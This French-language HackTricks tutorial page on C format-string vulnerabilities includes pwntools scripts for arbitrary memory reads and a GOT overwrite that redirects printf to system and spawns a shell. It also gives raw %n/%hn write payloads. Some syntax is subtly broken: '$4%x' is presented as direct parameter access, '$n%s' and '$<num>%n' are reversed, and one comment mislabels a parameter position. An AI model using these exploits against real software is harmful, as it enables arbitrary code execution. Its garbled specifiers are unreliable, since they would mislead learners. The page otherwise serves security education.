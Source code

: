 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

En C, **`printf`** est une fonction qui peut être utilisée pour **imprimer** une chaîne. Le **premier paramètre** que cette fonction attend est le **texte brut avec les formatteurs**. Les **paramètres suivants** attendus sont les **valeurs** à **substituer** aux **formatteurs** du texte brut.

La vulnérabilité apparaît lorsque **du texte d'attaquant est utilisé comme premier argument** de cette fonction. L'attaquant pourra créer une **entrée spéciale abusant** des capacités de **format de printf** pour lire et **écrire des données à n'importe quelle adresse (lisible/écrivable)**. De cette manière, il sera capable d'**exécuter du code arbitraire**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemples :**

* Exemple vulnérable :
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Utilisation normale :
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Avec des arguments manquants :
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Accéder aux Pointeurs**

Le format **`%<n>$x`**, où `n` est un nombre, permet d'indiquer à printf de sélectionner le n-ième paramètre (de la pile). Donc, si vous voulez lire le 4ème paramètre de la pile en utilisant printf, vous pourriez faire :
```c
printf("%x %x %x %x")
```
et vous liriez du premier au quatrième paramètre.

Ou vous pourriez faire :
```c
printf("$4%x")
```
et lire directement le quatrième.

Remarquez que l'attaquant contrôle le paramètre `pr`**`intf`**, ce qui signifie essentiellement que** son entrée sera dans la pile lorsque `printf` est appelé, ce qui signifie qu'il pourrait écrire des adresses mémoire spécifiques dans la pile.

{% hint style="danger" %}
Un attaquant contrôlant cette entrée, sera capable de **ajouter une adresse arbitraire dans la pile et faire en sorte que `printf` y accède**. Dans la section suivante, il sera expliqué comment utiliser ce comportement.
{% endhint %}

## **Lecture Arbitraire**

Il est possible d'utiliser le formatteur **`$n%s`** pour faire en sorte que **`printf`** obtienne l'**adresse** située à la **n position**, la suivant et **l'imprimer comme si c'était une chaîne** (imprimer jusqu'à ce qu'un 0x00 soit trouvé). Donc, si l'adresse de base du binaire est **`0x8048000`**, et que nous savons que l'entrée utilisateur commence à la 4ème position dans la pile, il est possible d'imprimer le début du binaire avec :
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Notez que vous ne pouvez pas mettre l'adresse 0x8048000 au début de l'entrée car la chaîne sera coupée en 0x00 à la fin de cette adresse.
{% endhint %}

## **Écriture Arbitraire**

Le formatteur **`$<num>%n`** **écrit** le **nombre de bytes écrits** à l'**adresse indiquée** dans le paramètre \<num> sur la pile. Si un attaquant peut écrire autant de caractères qu'il le souhaite avec printf, il pourra faire en sorte que **`$<num>%n`** écrive un nombre arbitraire à une adresse arbitraire.

Heureusement, pour écrire le nombre 9999, il n'est pas nécessaire d'ajouter 9999 "A"s à l'entrée, pour ce faire, il est possible d'utiliser le formatteur **`%.<num-write>%<num>$n`** pour écrire le nombre **`<num-write>`** à l'**adresse pointée par la position `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Cependant, notez qu'en général, pour écrire une adresse telle que `0x08049724` (qui est un énorme nombre à écrire d'un coup), **on utilise `$hn`** au lieu de `$n`. Cela permet de **n'écrire que 2 octets**. Par conséquent, cette opération est effectuée deux fois, une pour les 2 octets les plus élevés de l'adresse et une autre fois pour les plus bas.

Par conséquent, cette vulnérabilité permet de **tout écrire à n'importe quelle adresse (écriture arbitraire).**

Dans cet exemple, l'objectif est de **surcharger** l'**adresse** d'une **fonction** dans la table **GOT** qui sera appelée plus tard. Bien que cela puisse abuser d'autres techniques d'écriture arbitraire pour exécuter :

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Nous allons **surcharger** une **fonction** qui **reçoit** ses **arguments** de l'**utilisateur** et **pointer** vers la **fonction** **`system`**.\
Comme mentionné, pour écrire l'adresse, généralement 2 étapes sont nécessaires : Vous **écrivez d'abord 2 octets** de l'adresse puis les autres 2. Pour ce faire, **`$hn`** est utilisé.

* **HOB** est appelé pour les 2 octets les plus élevés de l'adresse
* **LOB** est appelé pour les 2 octets les plus bas de l'adresse

Ensuite, en raison de la façon dont fonctionne la chaîne de format, vous devez **écrire d'abord le plus petit** de \[HOB, LOB] puis l'autre.

Si HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Si HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modèle Pwntools

Vous pouvez trouver un modèle pour préparer un exploit pour ce type de vulnérabilité dans :

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou cet exemple de base [**ici**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) :
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Autres exemples et références

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, pas de relro, pas de canary, nx, pas de pie, utilisation de base des chaînes de format pour leak le flag de la pile (pas besoin de modifier le flux d'exécution)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écraser l'adresse `fflush` avec la fonction win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, pas de canary, nx, pas de pie, chaîne de format pour écrire une adresse à l'intérieur de main dans `.fini_array` (pour que le flux boucle encore une fois) et écrire l'adresse vers `system` dans la table GOT pointant vers `strlen`. Lorsque le flux revient à main, `strlen` est exécuté avec l'entrée utilisateur et pointant vers `system`, il exécutera les commandes passées.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
